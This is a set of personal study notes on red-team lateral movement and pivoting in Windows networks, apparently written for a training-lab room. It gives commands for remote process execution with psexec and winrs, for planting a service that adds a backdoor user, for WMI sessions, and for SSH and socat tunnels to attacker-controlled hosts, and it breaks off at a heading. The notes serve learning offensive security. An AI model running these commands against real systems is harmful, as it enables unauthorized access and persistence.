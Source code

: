 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/red-teaming/lateral-movement-and-pivoting/lateral-movement-and-pivoting/"}
---
```







## ==Steps Followed==

- Initial Reconnaissance
- Initial Compromise
- Establish Foothold
- Escalate Privileges
    - Internal Recon
    - Move Laterally
    - Maintain Presence
- Complete Mission

## ==Spawning Processes==

### ==Psexec==

```Shell
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

### ==WinRM==

- Web based protocol used to send Powershell commands to Windows hosts remotely.

```Shell
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

- To achieve this, We need to create a PSCredential object

```Shell
$username = '';
$password = '';
$securePassword = '';
$credential = '';
```

### ==sc==

- Create a service on a remote host with sc.exe.

```Shell
sc.exe \\TARGET create THMService binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice

sc.exe \\TARGET stop THMService
sc.exe \\TARGET delete THMService
```

## ==Windows Management Instrumentation==

- Create the same PSCredential object as earlier.
- Store the commands on the $Session variable
    
    ```Shell
    $Opt = New-CimSessionOption -Protocol DCOM
    $Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction
    ```
    

## ==Alternate Authentication==

### ==NTLM Auth==

![Untitled.jpeg](/img/user/img/Untitled.jpeg)

### ==Kerberos Auth==

- Kerberos operates on tickets, allowing nodes to securely prove identity.
- The protocol messages are protected against eavesdropping and replay attacks, and builds on symmetric-key cryptography.

## ==Port Forwarding==

### ==SSH Tunnelling==

- Create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels.

```Shell
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

### ==SSH Remote Port Forwarding==

- Allows to take a reachable port from the SSH client and project it into a remote SSH server.

```Shell
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

### ==SSH Local Port Forwarding==

- Allows to “pull” a port from an SSH server into the SSH client. Used to take any service available in attacker’s machine and make it available through ports on PC-1.

```Shell
ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```

- -L is used for defining Local.
- Need to add a firewall rule to allow for incoming connections.

```Shell
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

- Can be done with socat where SSH is not available.

```Shell
socat TCP4-LISTEN:3389, fork TCP4:3.3.3.3:3389
```

> socat cant forward the connection directly to attacker instead just opens a port there.

### ==Dynamic Port Forwarding==